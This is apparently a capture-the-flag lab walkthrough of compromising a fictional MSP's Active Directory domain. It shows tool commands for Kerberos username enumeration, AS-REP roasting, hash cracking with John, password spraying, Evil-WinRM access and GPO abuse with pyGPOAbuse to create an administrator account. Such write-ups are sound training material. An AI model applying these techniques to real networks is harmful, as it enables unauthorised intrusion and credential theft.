# Hack Smarter Sysco Walkthrough 


## Scenario

Sysco is a Managed Service Provider that has tasked you to perform an external penetration testing on their active directory domain. You must obtain initial foothold, move laterally and escalate privileges while evading Antivirus detection to obtain administrator privileges.

### **Objectives and Scope**

The **core objective** of this external penetration test is to simulate a realistic, determined adversary to achieve **Domain Administrator privileges** within Sysco's Active Directory (AD) environment. Starting from an external position, we will focus on obtaining an **initial foothold**, performing **lateral movement**, and executing **privilege escalation** while successfully **evading Antivirus (AV) and other security controls**. This is a red-team exercise to find security weaknesses before a real attacker does.

## Initial Recon

We use nmap to do some initial enumeration. From the results we see that common Windows Domain Controller ports are open. Exposed services include DNS (53), Kerberos (88), SMB (159/445), LDAP and LDAPS (389/636/3268/3269) and RDP (3389). Surprisingly WinRM does not seem to be open. The scan might've missed it but we can check later.

```
Nmap scan report for sysco.local (10.1.204.153)
Host is up (0.090s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.2.12)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
| http-methods: 
|   Supported Methods: OPTIONS HEAD GET POST TRACE
|_  Potentially risky methods: TRACE
|_http-favicon: Unknown favicon MD5: DD229045B1B32B2F2407609235A23238
|_http-title: Index - Sysco MSP
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-02-09 10:55:18Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SYSCO.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: SYSCO.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.SYSCO.LOCAL
| Issuer: commonName=DC01.SYSCO.LOCAL
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-10-17T05:14:51
| Not valid after:  2026-04-18T05:14:51
| MD5:   fdbb:6553:3042:be9f:3c1d:15b2:60db:5e1f
|_SHA-1: 017c:b073:a3a7:1843:0ffd:7a2b:184a:c07b:a830:c0a8
|_ssl-date: 2026-02-09T10:56:05+00:00; -2s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: SYSCO
|   NetBIOS_Domain_Name: SYSCO
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: SYSCO.LOCAL
|   DNS_Computer_Name: DC01.SYSCO.LOCAL
|   Product_Version: 10.0.20348
|_  System_Time: 2026-02-09T10:55:26+00:00
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -1s, deviation: 0s, median: -2s
| smb2-time: 
|   date: 2026-02-09T10:55:26
|_  start_date: N/A
```
## Initial Access

### Port 80 - HTTP

It seems to be a static webpage. However, there are information regarding the team members which could be used to do username enumeration.


I used a tool call Namebuster to generate potential usernames and validated them using Kerbrute.

```
/opt/Namebuster/namebuster names.txt | tee potential_users.txt
```

```
/opt/kerbrute/kerbrute userenum -d 'sysco.local' --dc $target potential_users.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/09/26 - Ronnie Flathers @ropnop

2026/02/09 06:00:37 >  Using KDC(s):
2026/02/09 06:00:37 >   10.1.204.153:88

2026/02/09 06:00:37 >  [+] VALID USERNAME:       greg.Shields@sysco.local
2026/02/09 06:00:37 >  [+] VALID USERNAME:       greg.SHIELDS@sysco.local
2026/02/09 06:00:37 >  [+] VALID USERNAME:       greg.shields@sysco.local
2026/02/09 06:00:37 >  [+] VALID USERNAME:       Greg.SHIELDS@sysco.local
2026/02/09 06:00:37 >  [+] VALID USERNAME:       Greg.shields@sysco.local
2026/02/09 06:00:37 >  [+] VALID USERNAME:       Greg.Shields@sysco.local
2026/02/09 06:00:37 >  [+] VALID USERNAME:       GREG.SHIELDS@sysco.local
2026/02/09 06:00:37 >  [+] VALID USERNAME:       GREG.Shields@sysco.local
2026/02/09 06:00:37 >  [+] VALID USERNAME:       GREG.shields@sysco.local
2026/02/09 06:00:43 >  [+] VALID USERNAME:       lainey.moore@sysco.local
2026/02/09 06:00:43 >  [+] VALID USERNAME:       lainey.Moore@sysco.local
2026/02/09 06:00:43 >  [+] VALID USERNAME:       lainey.MOORE@sysco.local
2026/02/09 06:00:43 >  [+] VALID USERNAME:       Lainey.moore@sysco.local
2026/02/09 06:00:43 >  [+] VALID USERNAME:       Lainey.Moore@sysco.local
2026/02/09 06:00:43 >  [+] VALID USERNAME:       Lainey.MOORE@sysco.local
2026/02/09 06:00:43 >  [+] VALID USERNAME:       LAINEY.MOORE@sysco.local
2026/02/09 06:00:43 >  [+] VALID USERNAME:       LAINEY.Moore@sysco.local
2026/02/09 06:00:43 >  [+] VALID USERNAME:       LAINEY.moore@sysco.local
2026/02/09 06:00:45 >  Done! Tested 864 usernames (18 valid) in 8.282 seconds
```
### Asreproasting

Now that we have valid usernames, we can check for any accounts that are vulnerable to AS-REP Roasting. We can do this using the impacket tool.

```
impacket-GetNPUsers sysco.local/ -dc-ip $target -usersfile users.txt -no-pass
```


We can then take the hash and try to crack it using John The Ripper.

```
john --wordlist=/usr/share/wordlist/rockyout.txt jack.downlands.asrep.hash
```



### Directory Fuzzing

An important step to do when we encounter a web server is to do Directory Fuzzing to uncover any hidden directories. We found a Roundcube Webmail instance running at `/roundcube`.



We try `Jack Downlands` credentials to gain access to their inbox. We did not find anything there. However, we see an email sent to `Lainey Moore` that has an attachment which seems to be a router config file.





Using `hashes.com` we find out that the hash most probably is a Cisco Type 5 Hash.


Again we can use John The Ripper to attempt to crack the hash.

```
john --wordlist=/usr/share/wordlists/rockyou.txt cisco.hash   
```


### Access as `Lainey Moore`

After recovering a valid password, the next objective was to identify whether it had been reused by any users in the environment. To test this, the credentials were sprayed across the network, which resulted in successful authentication as `Lainey Moore`. With these credentials, a shell was obtained via `Evil-WinRM`.



## Privilege Escalation

### Access as `Greg Shields`

After gaining access, I enumerated the file system and discovered a file containing hard-coded credentials. Reusing the same approach, I sprayed this newly recovered password across the environment and was able to authenticate as another user, `Greg Shields`.





### Bloodhound

With no way forward from here, I turned to BloodHound to identify potential privilege escalation paths within Active Directory. BloodHound showed that `Greg Shields` was a member of the `Group Policy Creator Owners` group. This was significant because the graph also revealed that this group had control over the `Default Domain Policy` through a `WriteOwner` relationship. In addition, the `Default Domain Policy` was linked to the `SYSCO.LOCAL` domain.



To understand why this is dangerous, it is important to understand the role of a **Group Policy Object (GPO)** in Active Directory. A GPO is used by administrators to centrally manage and enforce settings across domain-joined systems. These settings can include security policies, startup scripts, logon scripts, software deployment, scheduled tasks, and many other system-level configurations. Because GPOs are trusted administrative mechanisms, a user who can modify a GPO can effectively instruct targeted systems to execute attacker-controlled actions.

Once this was identified, the GPO was abused using `pyGPOAbuse`. The purpose of this tool is to modify an existing GPO in order to deploy a malicious action through normal Group Policy processing. In this case, the tool was used to add a scheduled task to the `Default Domain Policy` which creates a local administrator. Since we are running this policy on a Domain Controller, we will create a domain joined account.



